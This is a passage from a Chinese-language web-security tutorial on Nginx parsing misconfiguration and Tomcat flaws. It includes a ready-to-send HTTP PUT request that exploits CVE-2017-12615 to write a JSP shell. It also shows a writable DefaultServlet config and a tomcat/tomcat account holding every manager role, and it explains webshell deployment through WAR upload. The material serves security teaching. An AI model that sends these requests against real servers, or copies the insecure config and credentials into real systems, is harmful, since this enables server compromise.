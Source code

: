 该漏洞与 Nginx、php 版本无关，属于用户配置不当造成的解析漏洞。

访问 `http://your-ip/uploadfiles/nginx.png` 和 `http://your-ip/uploadfiles/nginx.png/.php` 即可查看效果。

## [](#4-tomcat-%E5%AE%89%E5%85%A8)4 Tomcat 安全

Tomcat 是 Apache 软件基金会的 Jakarta 项目中的一个核心项目，由 Apache、Sun 和其他一些公司及个人共同开发而成。

Tomcat 服务器是一个免费的开放源代码的 Web 应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用。

实际上 Tomcat 是 Apache 服务器的扩展，但运行时它是独立运行的，所以当你运行 Tomcat 时，它实际上作为一个与 Apache 独立的进程单独运行的。

### [](#41-tomcat-%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF)4.1 Tomcat 配置错误

漏洞编号：CVE-2017-12615

影响版本：Apahce Tomcat 7.0.0 - 7.0.79

漏洞说明：当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法，攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。

漏洞本质 Tomcat 配置了可写（readonly=false），导致我们可以往服务器写文件：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```fallback<br><servlet><br>    <servlet-name>default</servlet-name><br>    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class><br>    <init-param><br>        <param-name>debug</param-name><br>        <param-value>0</param-value><br>    </init-param><br>    <init-param><br>        <param-name>listings</param-name><br>        <param-value>false</param-value><br>    </init-param><br>    <init-param><br>        <param-name>readonly</param-name><br>        <param-value>false</param-value><br>    </init-param><br>    <load-on-startup>1</load-on-startup><br></servlet><br>``` |

虽然 Tomcat 对文件后缀有一定检测（不能直接写 jsp），但我们使用一些文件系统的特性（如 Linux 下可用 / ）来绕过了限制。

直接发送以下数据包即可在 Web 根目录写入 shell：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```http<br>PUT /1.jsp/ HTTP/1.1<br>Host: your-ip:8080<br>Accept: */*<br>Accept-Language: en<br>User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)<br>Connection: close<br>Content-Type: application/x-www-form-urlencoded<br>Content-Length: 5<br><br>shell<br>``` |

### [](#42-tomcat-%E5%BC%B1%E5%8F%A3%E4%BB%A4)4.2 Tomcat 弱口令

Tomcat 支持在后台部署 war 文件，可以直接将 webshell 部署到 web 目录下。其中，欲访问后台，需要对应用户有相应权限。

#### [](#421-tomcat-%E6%9D%83%E9%99%90)4.2.1 Tomcat 权限

-   manager（后台管理）
    
    -   manager-gui 拥有 html 页面权限
    -   manager-status 拥有查看 status 的权限
    -   manager-script 拥有 text 接口的权限，和 status 权限
    -   manager-jmx 拥有 jmx 权限，和 status 权限
-   host-manager（虚拟主机管理）
    
    -   admin-gui 拥有 html 页面权限
    -   admin-script 拥有 text 接口权限

在 `conf/tomcat-users.xml` 文件中配置用户的权限：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```xml<br><?xml version="1.0" encoding="UTF-8"?><br><tomcat-users xmlns="http://tomcat.apache.org/xml"<br>              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"<br>              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"<br>              version="1.0"><br><br>    <role rolename="manager-gui"/><br>    <role rolename="manager-script"/><br>    <role rolename="manager-jmx"/><br>    <role rolename="manager-status"/><br>    <role rolename="admin-gui"/><br>    <role rolename="admin-script"/><br>    <user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" /><br>    <br></tomcat-users><br>``` |
